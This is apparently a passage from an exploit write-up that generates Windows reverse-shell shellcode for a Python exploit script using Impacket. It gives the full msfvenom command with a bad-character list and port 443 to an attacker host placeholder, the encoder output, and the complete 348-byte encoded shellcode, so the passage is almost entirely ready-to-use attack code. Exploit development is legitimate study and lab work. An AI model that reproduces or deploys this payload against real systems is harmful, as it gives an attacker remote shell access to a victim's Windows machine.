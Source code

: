 ### Generate Shellcode
It’s a python script that requires Impacket (which comes installed on Kali). To gain a reverse shell, I used `msfvenom` to generate a payload.

**Payload Details**:
+ **Payload Type:** windows/shell_reverse_tcp
+ **LHOST:** Attacker IP (<Your_IP>)
+ **LPORT:** Attacker port (443)
+ **Bad Characters:** \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40
+ **Architecture:** x86
+ **Platform:** Windows

```
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1953 bytes
shellcode =  b""
shellcode += b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
shellcode += b"\x5e\x81\x76\x0e\x39\xb9\x92\xba\x83\xee\xfc"
shellcode += b"\xe2\xf4\xc5\x51\x10\xba\x39\xb9\xf2\x33\xdc"
shellcode += b"\x88\x52\xde\xb2\xe9\xa2\x31\x6b\xb5\x19\xe8"
shellcode += b"\x2d\x32\xe0\x92\x36\x0e\xd8\x9c\x08\x46\x3e"
shellcode += b"\x86\x58\xc5\x90\x96\x19\x78\x5d\xb7\x38\x7e"
shellcode += b"\x70\x48\x6b\xee\x19\xe8\x29\x32\xd8\x86\xb2"
shellcode += b"\xf5\x83\xc2\xda\xf1\x93\x6b\x68\x32\xcb\x9a"
shellcode += b"\x38\x6a\x19\xf3\x21\x5a\xa8\xf3\xb2\x8d\x19"
shellcode += b"\xbb\xef\x88\x6d\x16\xf8\x76\x9f\xbb\xfe\x81"
shellcode += b"\x72\xcf\xcf\xba\xef\x42\x02\xc4\xb6\xcf\xdd"
shellcode += b"\xe1\x19\xe2\x1d\xb8\x41\xdc\xb2\xb5\xd9\x31"
shellcode += b"\x61\xa5\x93\x69\xb2\xbd\x19\xbb\xe9\x30\xd6"
shellcode += b"\x9e\x1d\xe2\xc9\xdb\x60\xe3\xc3\x45\xd9\xe6"
shellcode += b"\xcd\xe0\xb2\xab\x79\x37\x64\xd1\xa1\x88\x39"
shellcode += b"\xb9\xfa\xcd\x4a\x8b\xcd\xee\x51\xf5\xe5\x9c"
shellcode += b"\x3e\x46\x47\x02\xa9\xb8\x92\xba\x10\x7d\xc6"
shellcode += b"\xea\x51\x90\x12\xd1\x39\x46\x47\xea\x69\xe9"
shellcode += b"\xc2\xfa\x69\xf9\xc2\xd2\xd3\xb6\x4d\x5a\xc6"
shellcode += b"\x6c\x05\xd0\x3c\xd1\x98\xb0\x37\xa9\xfa\xb8"
shellcode += b"\x39\xb8\x29\x33\xdf\xd3\x82\xec\x6e\xd1\x0b"
shellcode += b"\x1f\x4d\xd8\x6d\x6f\xbc\x79\xe6\xb6\xc6\xf7"
shellcode += b"\x9a\xcf\xd5\xd1\x62\x0f\x9b\xef\x6d\x6f\x51"
shellcode += b"\xda\xff\xde\x39\x30\x71\xed\x6e\xee\xa3\x4c"
shellcode += b"\x53\xab\xcb\xec\xdb\x44\xf4\x7d\x7d\x9d\xae"
shellcode += b"\xbb\x38\x34\xd6\x9e\x29\x7f\x92\xfe\x6d\xe9"
shellcode += b"\xc4\xec\x6f\xff\xc4\xf4\x6f\xef\xc1\xec\x51"
shellcode += b"\xc0\x5e\x85\xbf\x46\x47\x33\xd9\xf7\xc4\xfc"
shellcode += b"\xc6\x89\xfa\xb2\xbe\xa4\xf2\x45\xec\x02\x72"
shellcode += b"\xa7\x13\xb3\xfa\x1c\xac\x04\x0f\x45\xec\x85"
shellcode += b"\x94\xc6\x33\x39\x69\x5a\x4c\xbc\x29\xfd\x2a"
shellcode += b"\xcb\xfd\xd0\x39\xea\x6d\x6f"
```
